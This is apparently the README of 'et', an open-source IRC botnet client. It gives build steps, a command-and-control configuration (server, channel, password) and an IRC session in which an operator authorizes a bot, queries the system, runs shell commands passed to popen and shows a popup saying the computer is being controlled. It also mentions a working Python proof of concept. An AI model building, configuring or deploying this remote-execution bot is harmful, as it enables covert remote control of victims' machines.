 et - the extraterrestrial botnet
===

### What is it?
`et` is a dumb client to an IRC command-and-control server.

When activated, it "phones home" and awaits instructions from members of an IRC channel.

It can be instructed to retrieve system information and execute commands, among other things.

### Compilation

#### On *nix systems (Linux, BSD, OS X):
```bash
$ git clone https://github.com/woodruffw/et && cd et
$ make nix # compiles et in ./bin
```

#### On Windows:
Building on Windows requries `make` and `gcc`, both of which can be obtained through the [MinGW](http://www.mingw.org/) project.

Download the tarball, extract it somewhere, and run `mingw32-make` inside of that directory in CMD.exe. The `et.exe` binary will be left in "bin".


*IMPORTANT*: Do not actually run the resulting `et` binary, as it *WILL* open your computer to attack.

### Configuration

Many of `et`'s features can be configured in the *cnc_info.h* file under *./src*.

For example:
```C
#define IRC_SERVER "irc.example.com"
#define IRC_PORT 6667
#define IRC_CHANNEL "#yourchannel"
#define IRC_REPORT "hello!"
#define IRC_AUTH "super secret password"
```

Any changes made require recompilation.

### Usage
Controlling the `et` bots from the IRC server is very simple.

When each bot connects, it sends out a channel-wide message of the format:
```
et0000000: et0000000 phoning home
```

From that point on, the bot is ready to receive commands. There are a few built-in commands:
* `auth <password>` - Requests authorization to control the bot. If the password matches `IRC_AUTH` in *cnc_info.h*, authorization is granted.
* `deauth` - Deauthorizes control of the bot unconditionally. Once deauthorized, the bot may not execute any command but `auth`.
* `info` - Outputs a digest of system information. Supplied by `uname(3)` on Unix and Linux and `GetVersionEx` on Windows.
* `popup <message>` - Display a popup message on the client's screen. **CURRENTLY WINDOWS ONLY**.
* `kill` - Disconnects the bot from the IRC server. Unless scheduled otherwise on the system, the bot will never reconnect.

Aside from these four commands, all other commands passed to an `et` are passed directly to `popen(3)` (`_popen()` on Windows).

By default `deauth`, `info`, `kill`, and all other commands are restricted until the bot is authorized with `auth`.

Some examples, all from the IRC prompt:
```
et0000000: et0000000 phoning home
/msg et0000000 auth et-phone-home
et0000000: Successfully authorized. et0000000 listening.
/msg et0000000 info
et0000000: [some information]
/msg et0000000 pwd
et0000000: [the current working directory]
/msg et0000000 popup hello, i'm controlling your computer
/msg et0000000 kill
*et0000000 has quit ()
```

Currently, output from system commands is limited to approximately 512 characters. 

### Proof of Concept
The original PoC Python script can be found under *./src/poc/et.py*. Like the actual version, it does work and *WILL* expose your machine.

### Theoretical Limits
Because the IRC protocol limits nicks to 9 characters, only so many `et`s can operate within a single channel.

By default, the first two characters of an `et`'s nick will always be 'et,' meaning that at most 10 million `et`s can exist within a channel.
Furthermore, because I got lazy with the Windows version, the ID on Windows machines can only be in the range [0, (32768 << 8)] for a total number of 8,388,609 possible IDs on Windows.
Of course, because the trailing numbers are pseudorandom and not sequential, the actual point of collision is likely to be much lower than 10 million (or 8,388,609 for that matter).
On the other hand, `et` can be configured to "phone home" to other servers and channels, making the limit less relevant in practice.

### TODO
* Limit message output to 510 characters (+ CR-LF) as per RFC 2812
* Prevent Windows CMD popups
* Add more built-in commands

### Contributing

`et` is licensed under the MIT licence. 

Please feel free to issue merge requests, even for small things. I appreciate all contributions.